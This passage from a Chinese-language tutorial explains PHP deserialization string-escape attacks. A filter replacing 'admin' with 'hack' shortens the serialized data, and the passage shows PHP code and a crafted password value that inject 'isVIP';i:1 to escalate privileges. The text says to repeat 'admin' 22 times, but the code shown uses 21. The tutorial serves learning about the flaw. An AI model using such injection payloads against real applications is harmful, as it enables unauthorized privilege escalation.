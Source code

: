 > 例如，此处序列化字符串属性值 `hack` 的长度为4，但是原本属性长度为5，所以会往后走1位，属性值为： `hack" `  把后面的双引号也算进去了。也就是说不根据双引号判断一个字符串是否已经结束，而是根据前面规定的数量来读取字符串。

我们计算一下**本可控变量末尾到下一可控变量的长度**：

```php
";s:8:"password";s:6:"   //长度为22
```

因为每次过滤都会少一个字符，我们先将 admin重复22遍：

```php
<?php
class user{
public $username;
public $password;
public $isVIP;

public function __construct($u,$p){
$this->username = $u;
$this->password = $p;
$this->isVIP = 0;
}
}

function filter($s){
return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
```

输出：

```php
{s:8:"username";s:105:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

![img](https://s2.loli.net/2023/01/04/KvXBduNPCS8A9qF.png)

也就是说**123456**这个地方成为了我们的可控变量，在**123456**可控变量的位置中添加我们的目标子串

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}	//目标子串
```

即：

```php
$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
```
